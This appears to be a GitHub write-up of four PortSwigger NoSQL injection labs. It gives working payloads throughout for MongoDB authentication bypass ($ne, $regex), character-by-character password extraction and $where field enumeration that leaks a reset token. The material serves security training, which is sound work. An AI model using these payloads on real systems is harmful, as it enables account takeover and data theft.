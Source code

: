 ## Detecting NoSQL injection
[Detecting NoSQL injection](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-detection)

Write-up:

1. Website as a filtering feature, which accesses the following url:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories

2. By inserting an url encoded `'||'1'=='1`, we get the following url and respective MongoDB query, which solve the lab:
   https://0aee005103709b8ae2a908f1003f00c8.web-security-academy.net/filter?category=Accessories%27%7c%7c%27%31%27%3d%3d%27%31
   `this.category == 'Accessories'||'1'=='1'`

## Exploiting NoSQL operator injection to bypass authentication
[NoSQL injection to bypass authentication](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-bypass-authentication)

Write-up:

1. We are told to login as `administrator` user, and we are given wiener:peter as valid credentials
   
2. If we use the following payloads, we get logged in as the valid user:
	`{"username":"wiener","password":{"$ne":""}}`
	`{"username":{"$ne":""},"password":"peter"}`

3.  The following payload logs us in as admin - as we don't know admin username:
	`{"username":{"$regex":"admin.*"},"password":{"$ne":""}}`
	Response:
	Location: /my-account?id=admink0gqh00s

## Exploiting syntax injection to extract data
[NoSQL injection to extract data](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-data)

Files:
brute.py

Write-up:

1. When intercepting the correct login request, we find a GET /user/lookup?user=wiener.
   If we attempt to lookup user `administrator`, we see that it also exists.

2. Attempting to send user `administrator"` just returns non-existent user, but sending `administrator'` returns an error, which means we might be able to inject syntax here.
   
3. Our goal is to find the password, so we send:
   `administrator'%26%261=='1` - %26 being URL-encoded "&"
   This allows us to log in correctly. 

4. Now we brute-force the password:
   `administrator'%26%26password[0]=='a` - returns error
   `administrator'%26%26user.password[0]=='a` - returns error
   `administrator'%26%26this.password[0]=='a` - returns admin user, meaning that `password[0]=a` - note that equaling to "b" says non-existent user.

5. After brute-forcing with brute.py, we get password: ajjtacdz 

## Exploiting operator injection to extract unknown fields
[NoSQL injection to extract unknown fields](https://portswigger.net/web-security/nosql-injection/lab-nosql-injection-extract-unknown-fields)

Files:
brute-operator.py
brute-operator-p2.py

Write-up:

1. We are told to log in as `carlos`, so we intercept a request with user `carlos`.
2. Sending `{"username":"carlos","password":{"$ne":"invalid"}}` returns "Account Locked", which means that we can't access the account, but the operator was successful.
3. Sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}` returns "invalid username or password", but sending `{"username":"carlos","password":{"$ne":"invalid"}, "$where": "1"}` returns the same "Account Locked" as before, which means the $where operator is being evaluated.
4. Using `"$where": "Object.keys(this)[0].match('^.{0}.*')"` (0, 1, 2, 3, 4, etc.), we see there are 5 field names (0-4).
5. Using brute-operator.py, we can iterate through those indexes to brute-force their field names. We get:
   Discovered Fields: {0: '_id', 1: 'username', 2: 'password', 3: 'email', 4: 'unlockToken'}
6. Now that we know the field name, using brute-operator-p2.py we can find out "unlockToken". We get:
   Token: 99dac4b78c150b16
7. Going to /forgot-password, we insert username carlos and add `?unlockToken=99dac4b78c150b16`to url. This gets us to a password change screen, where we can change the password and login as carlos.